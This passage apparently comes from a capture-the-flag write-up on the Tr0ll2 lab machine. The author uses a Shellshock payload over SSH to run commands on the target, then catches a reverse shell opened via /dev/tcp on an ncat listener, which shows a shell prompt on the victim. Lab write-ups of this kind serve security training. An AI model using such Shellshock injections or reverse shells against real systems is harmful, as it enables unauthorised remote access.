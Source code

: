 DAMN!

Trying to pass it some command like ls, uptime or uname did not work. I think I need some heavy artillery… the Shell Shock bug.
```
$ ssh noob@192.168.1.63 -i noob '() { :;}; echo "I DO NOT NEED TO"'
I DO NOT NEED TO
TRY HARDER LOL!
```
I think it works… right? I’ve then tried to recreate a reverse shell through the Linux built-in special device tcp while listening on my side with ncat on port 9000.

In the meantime…
```
$ ncat -lvp 9000
Ncat: Version 6.46 ( http://nmap.org/ncat )
Ncat: Listening on :::9000
Ncat: Listening on 0.0.0.0:9000
Ncat: Connection from 192.168.1.63.
Ncat: Connection from 192.168.1.63:37682.
bash: no job control in this shell
noob@Tr0ll2:~$
```

